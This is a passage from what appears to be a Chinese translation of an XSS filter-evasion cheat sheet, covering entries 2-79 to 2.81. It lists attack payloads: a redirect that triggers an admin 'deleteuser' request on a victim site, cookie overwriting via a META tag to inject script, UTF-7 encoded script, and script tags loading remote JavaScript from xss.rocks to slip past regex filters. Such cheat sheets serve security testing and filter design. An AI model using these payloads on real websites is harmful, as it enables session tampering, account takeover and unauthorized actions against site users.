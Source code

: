 `Redirect 302 /a.jpg http://victimsite.com/admin.asp&deleteuser`

### 2-79 Cookie 篡改

尽管公认不太实用，但是还是可以发现一些允许使用 META
标签的情况下可用它来覆写
cookie。另外的例子是当用户访问网站页面时，一些网站读取并显示存储在
cookie
中的用户名，而不是数据库中。当这两种场景结合时，你可以修改受害者的
cookie 以便将 JavaScript
注入到其页面中(你可以使用这个让用户登出或改变他们的用户状态，甚至可以
让他们以你的账户登录):

`<META HTTP-EQUIV="Set-Cookie" Content="USERID=<SCRIPT>alert('XSS')</SCRIPT>">`

`(注意：chrome已经拦截该形式)`

### 2-80 UTF-7 编码

如果存在 XSS 的页面没有提供页面编码头部，或者使用了任何设置为使用 UTF-7
编码的浏 览器，就可以使用下列方式进行攻击(感谢 Roman Ivanov
提供)。这在任何不改变编码类
型的现代浏览器上是无效的，这也是为什么标记为完全不支持的原因。Watchfire
在 Google 的自定义 404 脚本中发现这个问题:

`<HEAD><META HTTP-EQUIV="CONTENT-TYPE" CONTENT="text/html; charset=UTF-7"> </HEAD>+ADw-SCRIPT+AD4-alert('XSS');+ADw-/SCRIPT+AD4-`

### 2.81 利用 HTML 引号包含的 XSS

注：源文章内容出现为 httx 的字符，测试改为 http

这在 IE 中测试通过，但还得视情况而定。
它是为了绕过那些允许`<SCRIPT>`但是不允许`<SCRIPT SRC...`形式的正则过滤，即`/<script[^>]+SRC/i`：

(有效)

``` {.html}
<script a=">" src="httx://xss.rocks/xss.js"></script>
```

------------------------------------------------------------------------

这是为了绕过那些允许 `<SCRIPT>` 但是不允许 `<SCRIPT SRC...`
形式的正则过滤，即`/<script((\s+\w+(\s*=\s*(?:"(.)*?"|'(.)*?'|[^'">\s]+))?)+\s*|\s*)SRC/i`（这很重要，因为在实际环境中出现过这种正则过滤）
(无效)

``` {.html}
<SCRIPT =">" SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

------------------------------------------------------------------------

另一个绕过此正则过滤`/<script((\s+\w+(\s*=\s*(?:"(.)*?"|'(.)*?'|[^'">\s]+))?)+\s*|\s*) SRC/i`的
XSS： (有效)
